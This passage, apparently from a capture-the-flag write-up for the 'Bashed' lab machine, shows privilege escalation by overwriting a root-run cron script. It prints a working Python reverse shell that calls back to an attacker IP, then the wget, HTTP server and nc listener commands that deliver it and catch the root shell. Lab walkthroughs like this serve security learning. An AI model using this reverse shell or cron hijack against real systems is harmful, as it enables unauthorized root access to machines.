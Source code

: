 ![](../images/max/701/1*toBKYot6VKH19KT-Sb24jw.png)

Interesting! It’s a simple python program that writes to the file test.txt. However, we saw in the previous image that test.txt is running as root! Running the python program also seems to be something that is scheduled since the last access time of the test.txt file is very recent. In fact, the script seems to be executing every minute! It’s probably a cron job that is owned by root.

Why is that great news for us? If I change the contents in the test.py file to send a reverse shell, that reverse shell will run as root!

Changing the file on the shell was unbelievably difficult and glitchy. Therefore, I decided to transfer the file from my attack \(kali\) machine.

In the kali machine, create a test.py file and add the reverse shell code to it.

```text
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

Change the file permission to rwx for everyone.

```text
chmod 777 test.py
```

In the same directory, start a simple HTTP server.

```text
python -m SimpleHTTPServer 9005
```

In the target \(bashed\) machine under the **scripts** directory, download the file.

wget [http://10.10.14.30:9005/test.py](http://10.10.14.30:9005/python-reverse-shell.py)

Now, go back to your attack \(kali\) vm and start up a listener with the same port specified in the test.py script.

```text
nc -lnvp 5555
```

Wait for a minute or so for the cron job to execute and voila! We have a shell running as root!

![](../images/max/585/1*fRXTyuTkIUPS45ALZ6eueQ.png)
